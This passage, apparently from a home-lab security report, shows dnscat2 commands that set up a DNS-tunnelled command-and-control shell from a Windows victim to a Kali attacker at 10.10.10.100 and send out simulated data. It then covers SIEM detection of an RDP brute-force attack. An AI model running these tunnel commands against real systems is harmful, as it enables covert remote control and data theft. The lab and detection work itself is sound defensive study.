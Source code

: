 *Attacker (Kali):*
```bash
ruby dnscat2.rb --dns "domain=evil.local,host=10.10.10.100"
```

*Victim (Windows):*
```powershell
.\dnscat2.ps1 -Domain evil.local -DNSServer 10.10.10.100
```

The tunnel encapsulated shell commands within DNS TXT and NULL record queries, transmitting 2.4 MB of simulated sensitive data over 15 minutes through 3,847 DNS requests.

**Expected Outcome:** Anomalous DNS query volume, unusual TXT record requests, DNS traffic to non-standard resolvers, and long subdomain names indicative of data encoding.

**Actual Outcome:** Successful C2 establishment with complete command execution capability. DNS traffic appeared legitimate to basic network monitoring but exhibited statistical anomalies detectable by SIEM correlation.

**[Figure 8: dnscat2 server terminal on Kali Linux showing established tunnel session with data transfer statistics]**

**[Figure 9: Wireshark packet capture displaying DNS TXT queries with encoded payload data and unusual subdomain lengths]**

---

## 3. Detection and Analysis via SIEM

### 3.1 Brute Force Detection

The RDP brute-force attack triggered multiple detection mechanisms:

**Alert Rule Configuration:**
```yaml
rule:
  id: 100010
  level: 10
  description: "Possible RDP brute force attack (multiple failures)"
  groups:
    - authentication_failed
  frequency: 10
  timeframe: 300
  if_matched_sid: 60122
```

**SIEM Detection Timeline:**
- T+00:00 - First failed authentication (EventID 4625) logged
- T+03:42 - Alert triggered after 10 failures in 5 minutes
- T+42:18 - Successful authentication (EventID 4624) following 847 failures
- T+42:25 - High-severity incident created in SIEM dashboard

**Key Indicators:**
- Source IP: 10.10.10.100 (consistent attacker)
- Target account: administrator (high-value target)
- Failure reason: 0xC000006A (incorrect password)
- Success preceded by extensive failures (clear brute-force pattern)
